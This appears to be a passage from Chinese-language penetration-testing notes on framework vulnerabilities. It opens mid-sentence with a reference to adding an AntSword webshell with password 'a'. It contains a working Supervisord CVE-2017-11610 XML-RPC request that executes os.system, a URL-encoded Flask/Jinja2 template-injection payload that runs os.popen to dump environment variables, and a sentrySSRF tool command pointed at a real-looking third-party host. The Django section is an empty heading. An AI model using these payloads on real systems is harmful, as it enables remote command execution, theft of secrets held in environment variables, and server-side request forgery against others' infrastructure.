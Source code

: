 蚁剑添加，密码为a

### Supervisord

#### CVE-2017-11610

* 漏洞详情
  * supervisor 中的 XML-RPC 服务器允许远程身份验证的用户通过精心编制的与嵌套 supervisord 命名空间查找相关的 XML-RPC 请求执行任意命令。
* 漏洞利用

··· POST /RPC2 HTTP/1.1 Host: localhost Accept: _/_ Accept-Language: en User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0) Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 213

supervisor.supervisord.options.warnings.linecache.os.system touch /tmp/success ···

`./poc.py "http://your-ip:9001/RPC2" "command"：`

* 参考文章
  * https://github.com/vulhub/vulhub/blob/master/supervisor/CVE-2017-11610/poc.py

### Flask

#### Jinja2

Flask（Jinja2） 服务端模板注入漏洞

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22env%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

在popen输入要执行的命令

env:打印环境变量 id

### Django

#### CVE-2019-14234

### sentry

sentry是一个开源的监控系统，能支持服务端与客户端的监控，还有个强大的后台错误分析、报警平台。

#### ssrf

> 框架漏洞

* 工具库：https://github.com/xawdxawdx/sentrySSRF.git

python3 sentrySSRF.py -i https://sentry.cmcm.com/auth/login/cmcm/ -d
